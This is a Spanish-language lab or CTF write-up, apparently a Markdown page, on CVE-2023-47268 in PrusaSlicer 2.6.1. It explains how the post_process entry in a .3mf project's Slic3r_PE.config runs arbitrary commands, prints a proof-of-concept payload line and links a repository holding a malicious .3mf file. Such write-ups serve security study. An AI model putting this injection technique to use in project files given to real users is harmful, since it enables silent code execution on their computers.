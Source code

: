 ```bash

Print options are processed in the following order:
  1) Config keys from the command line, for example --fill-pattern=stars
     (highest priority, overwrites everything below)
  2) Config files loaded with --load
  3) Config values loaded from amf or 3mf files

Run --help-fff / --help-sla to see the full listing of print options.

```
La version del programa es vulnerable ; (PrusaSlicer-2.6.1)
Vemos que se puede ejecutar código arbitrario observando la versión del programa en [exploit-db](https://www.exploit-db.com/exploits/51983)
### CVE-2023-47268

Segun [exploit-db](https://www.exploit-db.com/exploits/51983):

	For the linux PoC, this CLI command is enough to execute the payload contained in the project. './prusa-slicer -s code-exec-linux.3mf'. After slicing, a new file '/tmp/hax' will be created. This particular PoC contains this 'post_process' entry in the 'Slic3r_PE.config' file:  

El exploit  permite la ejecución de código arbitrario al manipular el archivo `Slic3r_PE.config` dentro de un proyecto `.3mf` de PrusaSlicer.

El archivo `Slic3r_PE.config` es donde se define la configuración del proyecto y contiene la entrada `post_process`, que se utiliza para ejecutar scripts después de generar el archivo G-code. En este caso, modificaremos esta entrada para incluir nuestro payload .

Slic3r_PE.config:
```config
; post_process = "/usr/bin/id > /tmp/hax #\necho 'arbitrary code execution! (x_x)'>> /tmp/hax #"
```



## Poc

En el siguiente repositorio de github ya tenemos un archivo .3mf malicioso 
https://github.com/suce0155/prusaslicer_exploit.git

Lo descomprimimos y observamos el arbol de directorio de los archivos .3mf y como este ejecuta el codigo arbitrario;

Para extraerlo usamos unzip o 7z cualquiera vale;

```bash
total 64K
drwxrwxr-x 4 kali kali 4,0K feb 14 20:00 .
drwxrwxr-x 6 kali kali 4,0K feb 14 19:52 ..
-rw-rw-r-- 1 kali kali  39K feb 14 19:52 evil.3mf
-rw-rw-r-- 1 kali kali   42 feb 14 19:52 exploit.sh
drwxrwxr-x 5 kali kali 4,0K feb 14 20:00 Extracted
drwxrwxr-x 8 kali kali 4,0K feb 14 19:52 .git
-rw-rw-r-- 1 kali kali  369 feb 14 19:52 README.md
➜  prusaslicer_exploit git:(main) ✗ tree Extracted 
Extracted
├── 3D
│   └── 3dmodel.model
├── [Content_Types].xml
├── Metadata
│   ├── Slic3r_PE.config
│   ├── Slic3r_PE_model.config
│   └── thumbnail.png
└── _rels

4 directories, 5 files

```